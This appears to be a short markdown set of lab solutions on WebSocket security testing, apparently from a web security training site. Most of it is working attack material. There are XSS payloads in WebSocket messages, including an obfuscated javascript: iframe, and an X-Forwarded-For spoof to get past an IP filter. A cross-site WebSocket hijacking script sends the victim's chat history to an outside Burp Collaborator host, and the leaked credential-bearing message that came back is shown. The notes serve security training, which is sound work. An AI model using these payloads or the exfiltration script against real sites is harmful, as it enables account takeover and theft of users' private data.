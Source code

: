 # Testing for WebSockets security vulnerabilities

## Manipulating WebSocket messages to exploit vulnerabilities
```
{"message":"bbb<img src=1 onerror='alert(1)'>"}
```

## Manipulating the WebSocket handshake to exploit vulnerabilities
Bypass IP filter using `X-Forwarded-For: 1.1.1.1`
WS Message:
```
<iframe src='jAvAsCripT:alert`1`'></iframe>
```

## Cross-site WebSocket hijacking
```
<script>
websocket = new WebSocket('wss://ac441f321eacd6f080ead08c003d0020.web-security-academy.net/chat')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY");
}
function handleReply(event) {
  fetch('https://ttqw3(...).burpcollaborator.net/?'+event.data, {mode: 'no-cors'})
}
</script>
```

Burp Collaborator interaction:  
`{%22user%22:%22Hal%20Pline%22,%22content%22:%22No%20problem%20carlos,%20it&apos;s%20et6uvq%22}`
which decodes to `{"user":"Hal Pline","content":"No problem carlos, it's et6uvq"}`